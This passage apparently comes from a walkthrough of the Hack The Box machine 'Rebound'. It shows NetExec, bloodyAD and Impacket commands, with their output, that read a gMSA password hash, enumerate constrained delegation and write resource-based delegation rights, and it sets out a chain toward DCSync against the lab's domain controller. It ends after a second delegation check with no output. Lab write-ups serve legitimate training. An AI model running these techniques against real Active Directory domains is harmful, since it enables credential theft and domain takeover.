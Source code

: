 Awesome! Now following up with our previous attack path from `BloodHound`, `tbrady` has **ReadGMSAPassword** over `dlelegator$`, we can get is using `NetExec`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc ldap rebound.htb -u 'tbrady' -p '[REDACTED]' --gmsa
LDAP        10.129.232.31    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
LDAP        10.129.232.31    389    DC01             [+] rebound.htb\tbrady:[REDACTED] 
LDAP        10.129.232.31    389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.232.31    389    DC01             Account: delegator$           NTLM: [HASH_REDACTED]     PrincipalsAllowedToReadPassword: tbrady
```
- We can perform this action also with `bloodyAD`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host dc01.rebound.htb -d rebound.htb -u tbrady -p '[REDACTED]' get object 'delegator$' --attr msDS-ManagedPassword
```
### Discovering Constrained Delegation

We can also find this remotely with `impacket-findDelegation`:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-findDelegation 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -target-domain rebound.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType                          DelegationType  DelegationRightsTo    
-----------  -----------------------------------  --------------  ---------------------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb
```

We see that `delegator$` has `Constrained Delegation` to `http/DC01.rebound.htb` with no protocol transition, which means that the `S4U2Self` step does not produce a **forwardable ticket**, which also causes the `S4U2proxy` step to fail.

Originally, the `Service for User to Self` (S4U2self) protocol enables a service to request a **TGS** on another user's behalf, but for its own use. Conversely, the `Service for User to Proxy` (S4U2proxy) protocol allows a service to request a **TGS** on another user's behalf, but for a different service.

So we will use `Resource-Based Constrained Delegation` (RBCD) to allow `ldap_monitor` to impersonate any user to `delegator$`.
Then chain:
1. `ldap_monitor` → impersonate `DC01$` → get TGS to `delegator$`
2. `delegator$` → use its delegation → get TGS as `DC01$` to `http/DC01`
3. Use that ticket → DCSync

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-rbcd 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -delegate-from 'ldap_monitor' -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)

┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-findDelegation 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -target-domain rebound.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

```